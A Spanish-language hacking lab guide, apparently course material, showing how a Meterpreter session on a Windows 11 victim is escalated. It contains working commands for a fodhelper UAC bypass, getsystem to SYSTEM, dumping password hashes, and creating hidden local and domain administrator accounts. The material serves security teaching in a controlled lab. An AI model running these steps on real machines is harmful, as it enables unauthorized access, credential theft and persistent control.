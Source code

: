 # Elevar privilegios en una sesión de meterpreter.
      
Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Windows 11***


Son muchas las técnicas que permiten ganar una shell inversa en la víctima, pero a menudo el actor de la almenaza tiene limitaciones, porque las acciones que puede ejecutar están limitadas al contexto de la credencial del usuario víctima, y no suele ser el administrador.

Otras veces el usuario tiene ***permisos de administrador***, porque es un administrador de IT, o simplemente porque se verifica una mala práctica de hacer a los usuarios administradores. No obstante esto no es una garantía, porque como bien sabemos, aun siendo administradores, si realizamos una acción delicada, ahí está la UAC para pedir confirmación. Esta petición no puede salvarla el actor de la amenaza desde una shell de ***meterpreter***. Veámoslo.

En este laboratorio veremos cómo es posible ganar la identidad del sistema (***SYSTEM/AUTHORITY***).

## Ejercicio 1: Ganar una sesión de meterpreter.

Necesitamos una shell de meterpreter sobre la víctima, así que volvemos a realizar el ***Ejercicio 1 del lab-06-C***.
   
Debe quedar tal que así.

![meterpreter](../img/lab-06-D/202209171909.png)

Comprobamos la identidad, así que en la consola de ***meterpreter*** escribimos.
```
getuid
```

Como se puede observar en la imagen, tenemos la identidad del usuario al que hemos hackeado.

![WS11\antonio](../img/lab-06-D/202209171911.png)

El módulo auxiliar ***smart_hashdump*** de ***Metasploit*** permite extraer los hashes de las cuentas de usuarios que han iniciado sesión en la víctima. En el prompt escribimos.
```
run post/windows/gather/smart_hashdump
```

El resultado es que no tenemos permiso para hacer eso.

![no permissions](../img/lab-06-D/202209171916.png)

***Meterpreter*** tiene un comando que intenta elevar privilegios, vamos a probarlo.
```
getsystem -t 1
```

No es posible.

![getsystem failed](../img/lab-06-D/202209171922.png)


## Ejercicio 2: Escalar privilegios y robar los hashes.

La sesión actual de ***meterpreter*** es la ***1***. Necesitamos ganar acceso al prompt de ***Metasploit***, pero no queremos cerrar la sesión. Vamos a ponerla en segundo plano. En el prompt escribimos.
```
background
```

Ahora volvemos a tener acceso a ***Metasploit***. 

Vamos a intentar saltarnos la ***UAC***. Para ello haremos uso del exploit ***bypassuac_fodhelper***, y lo haremos sobre la sesión 1 de meterpreter que tenemos disponible, es decir, un exploit sobre otro exploit.
```
use exploit/windows/local/bypassuac_fodhelper
```

A este módulo hay que indicarle que opere a través de la sesión que tenemos abierta con ***mepterpreter***, que es la ***1***.
```
set SESSION 1
```

A ver qué sucede.
```
exploit
```

Se determina que el usuario hackeado pertenece al grupo ***Administradores***. Entonces es posible saltarse la UAC.

![UAC bypass](../img/lab-06-D/202209171929.png)

En la nueva sesión de ***meterpreter***, la ***2***, vamos a intentar el escalado.
```
getsystem -t 1
```

Ahora somos el "Sistema" y por lo tanto no estamos sujetos a la UAC, que como su nombre indica es un control que se aplica a los usuarios.

![Got system](../img/lab-06-D/202209171929.png)

Comprobemos.
```
getuid
```

Ahora solo tenemos que intentar descargar los hashes. En el prompt escribimos.
```
run post/windows/gather/smart_hashdump
```

Como podemos ver, tenemos los hashes. Solo hay que tener suerte para reventarlos, pero ese es otro problema.

![Hashes](../img/lab-06-D/202209171940.png)


## Ejercicio 3: Crear un nuevo usuario local administrador.

Como parte del proceso de ganar acceso, y siendo el sistema (***SYSTEM/AUTHORITY***), podemos hacer lo que quereamos, por ejemplo crear un nuevo usuario.

Para ello, y a través de la sesión 2 de ***meterpreter*** invocamos una shell.
```
shell
```

En ella ejecutamos los siguientes comandos.
```
net user metasploit Pa55w.rd /add
```
```
net localgroup administrators metasploit /add
```

En la maquina ***Win 11*** puedes comprobar que efectivamente se creado el usuario.

![user created](../img/lab-06-D/202209171949.png)

Curiosidad. Si el usuario hackeado es administrador del dominio y te saltas la UAC como has aprendido, puedes crear usuarios nuevos en el dominio, que también pertenecerán al grupo de administradores del dominio, de la siguiente forma.

```
net user metasploit Pa55w.rd /add /domain

net group "Domain Admins" metasploit /add /domain
```

Aquí termina el lab. Reinicia la máquina ***Win 11*** y cierra todas las terminales de la máquina ***Kali***.

***FIN DEL LABORATORIO***